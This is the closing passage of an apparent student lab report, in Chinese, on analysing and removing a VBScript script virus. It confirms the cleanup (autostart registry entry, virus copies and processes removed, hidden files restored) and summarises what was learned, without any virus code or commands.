

此时查看文件夹也发现病毒已被删除，原有文件也恢复显示状态了




注册表的开机自启删除了，进程也结束了，弹窗自然也消失了。



# 【小结或讨论】

- 本次实验主题是VBScript脚本病毒，该种脚本在Windows上双击即可运行，兼容性相当之高

- 本次实验先是速成了VBScript脚本语言，掌握了其基本的语法以及文件、注册表、进程等基本操作。随后便是综合运用。

- 此前搭建的病毒分析实验室在此处大显身手，有效监控了此次突发病毒事件，各司其职，共同打赢了病毒防控保卫战，使VBScript的行为无处遁形，其写入文件、修改注册表、新开进程的拙劣行为最终只会搬起石头砸自己的脚。

- 本次的病毒较为保守，并没有对计算机的文件数据进行破坏，但该病毒可能会结合此前的[keylogger](https://www.cnblogs.com/skprimin/p/15988892.html)病毒隐藏文件夹及后缀名的行为，潜伏性更高。

- 编写病毒清楚程序时，根据其所做的操作，一一进行清算，前往System目录下追剿病毒副本，在注册表中删除新建的自启动项，删除在子文件夹下创建的vbs文件，并恢复旧文件的显示属性、最后删除所有的script进程。将病毒的痕迹从计算机上抹除干净。

  
